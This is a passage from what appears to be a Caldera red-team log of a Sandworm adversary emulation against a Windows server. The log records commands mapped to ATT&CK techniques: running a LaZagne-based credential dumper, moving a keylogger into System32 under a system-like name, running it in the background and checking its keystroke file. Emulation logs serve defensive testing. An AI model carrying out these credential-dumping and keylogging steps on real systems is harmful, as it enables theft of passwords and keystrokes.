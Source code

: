 ```
mper oradump.exe to disk.\noradump.exe is a variant of the open source tool, LaZagne.\nIt has been refactored, some functionality removed, and compiled into a portable executable via PyInstaller.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"command-and-control","technique_name":"Ingress Tool Transfer","technique_id":"T1105"},"output":{"stdout":"","stderr":"The system cannot find the file specified.","exit_code":"1"},"agent_reported_time":"2024-11-12T08:10:33Z"},{"command":"C:\\Windows\\System32\\oradump.exe 2>&1","plaintext_command":"C:\\Windows\\System32\\oradump.exe 2>&1","delegated_timestamp":"2024-11-12T08:10:37Z","collected_timestamp":"2024-11-12T08:11:14Z","finished_timestamp":"2024-11-12T08:11:14Z","status":1,"platform":"windows","executor":"cmd","pid":4904,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"1da1b17e-66fd-4f39-bf10-203570a62624","ability_name":"Sandworm Execute Web Credential Dumper","ability_description":"Sandworm executes web credential dumper oradump.exe.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"credential-access","technique_name":"Credentials from Password Stores: Credentials from Web Browsers","technique_id":"T1555.003"},"output":{"stdout":"'C:\\Windows\\System32\\oradump.exe' is not recognized as an internal or external command,operable program or batch file.","stderr":"","exit_code":"1"},"agent_reported_time":"2024-11-12T08:11:14Z"},{"command":"move .\\keylogger.exe C:\\Windows\\System32\\mslog.exe","plaintext_command":"move .\\keylogger.exe C:\\Windows\\System32\\mslog.exe","delegated_timestamp":"2024-11-12T08:11:17Z","collected_timestamp":"2024-11-12T08:12:14Z","finished_timestamp":"2024-11-12T08:12:28Z","status":0,"platform":"windows","executor":"cmd","pid":480,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"ccbb3c07-dc04-46f5-83d3-54fe71deab3c","ability_name":"Sandworm Download Keylogger","ability_description":"Sandworm downloads keylogger to disk.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"command-and-control","technique_name":"Ingress Tool Transfer","technique_id":"T1105"},"output":{"stdout":"        1 file(s) moved.","stderr":"","exit_code":"0"},"agent_reported_time":"2024-11-12T08:12:28Z"},{"command":"exec-background cmd.exe /k \"C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt\"","plaintext_command":"exec-background cmd.exe /k \"C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt\"","delegated_timestamp":"2024-11-12T08:12:32Z","collected_timestamp":"2024-11-12T08:12:56Z","finished_timestamp":"2024-11-12T08:12:56Z","status":0,"platform":"windows","executor":"proc","pid":1096,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"1d317399-d786-4c58-889f-01cf496ba5d2","ability_name":"Sandworm Log Keystrokes","ability_description":"Sandworm runs the keylogger in the background to log keystrokes to mslog.txt.\nSandworm Team has used a keylogger to capture keystrokes by using the SetWindowsHookEx function.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"credential-access","technique_name":"Input Capture: Keylogging","technique_id":"T1056.001"},"output":{"stdout":"Executed background process cmd.exe with PID 1096 and args: /k, C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt","stderr":"","exit_code":"0"},"agent_reported_time":"2024-11-12T08:12:56Z"},{"command":"dir C:\\Windows\\System32\\mslog.txt","plaintext_command":"dir C:\\Windows\\System32\\mslog.txt","delegated_timestamp":"2024-11-12T08:12:57Z","collected_timestamp":"2024-11-12T08:13:59Z","finished_timestamp":"2024-11-12T08:13:59Z","status":1,"platform":"windows","executor":"cmd","pid":6272,"agent_metadata":{"paw":"tjsiii","group":"red","architecture":"amd64","username":"WINDOWS-SERVER\\Administrator","location":"C:\\Users\\Public\\caldera-read-team-agent.exe","pid":1592,"ppid":2180,"privilege":"Elevated","host":"windows-server","contact":"HTTP","created":"2024-11-12T08:03:33Z"},"ability_metadata":{"ability_id":"5c034afc-1f10-4e92-8d77-afed302d7de5","ability_name":"Sandworm Verify Keystroke File","ability_description":"Verifies that the mslog.txt file was created.\n"},"operation_metadata":{"operation_name":"Test-Sandworm (2024-11-12T08:06:26.576Z)","operation_start":"2024-11-12T08:06:26Z","operation_adversary":"Sandworm Team (G0034)"},"attack_metadata":{"tactic":"credential-access","technique_name":"Input Capture: Keylogging","technique_id":"T1056.001"},"output":{"stdout":" Volume in drive C has no label. Volume Serial Number is 3475-1A3C Direct
```